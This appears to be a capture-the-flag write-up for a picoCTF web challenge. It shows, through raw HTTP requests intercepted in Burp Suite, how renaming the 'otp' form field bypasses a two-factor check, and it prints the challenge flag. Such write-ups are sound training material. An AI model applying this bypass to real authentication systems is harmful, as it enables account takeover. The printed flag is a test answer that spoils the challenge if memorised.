


# IntroToBurp

## Description

Additional details will be available after launching your challenge instance.

## Hints

* Try using burpsuite to intercept request to capture the flag.

* Try mangling the request, maybe their server-side code doesn't handle malformed requests very well.

## Walkthrough

Once the instance has loaded and we visit the website we'll see a registration form.



We can fill the form out with dummy values and submit the form, which will redirect us to ```/dashboard``` where we'll have to input a two-factor authentication code.



If we try to submit dummy values we'll get an "invalid otp" message. We can also see from the POST request that our value is stored in a key called "otp".


```http
POST /dashboard HTTP/1.1
Host: titan.picoctf.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 9
Origin: http://titan.picoctf.net
Connection: close
Referer: http://titan.picoctf.net/dash

otp=12345
```

```http
HTTP/1.1 200 OK
Server: Werkzeug/3.0.1 Python/3.8.10
Content-Type: text/html; charset=utf-8
Content-Length: 11
Vary: Cookie
Connection: close

Invalid OTP
```

Changing the key name from "otp" to anything else will bypass the two-factor authentication and redirect us to the flag.

```http
POST /dashboard HTTP/1.1
Host: titan.picoctf.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 9
Origin: http://titan.picoctf.net
Connection: close
Referer: http://titan.picoctf.net/dash

fake=12345
```

> Welcome, test you sucessfully bypassed the OTP request. Your Flag: picoCTF{#0TP_Bypvss_SuCc3$S_b3fa4f1a}

```picoCTF{#0TP_Bypvss_SuCc3$S_b3fa4f1a}```
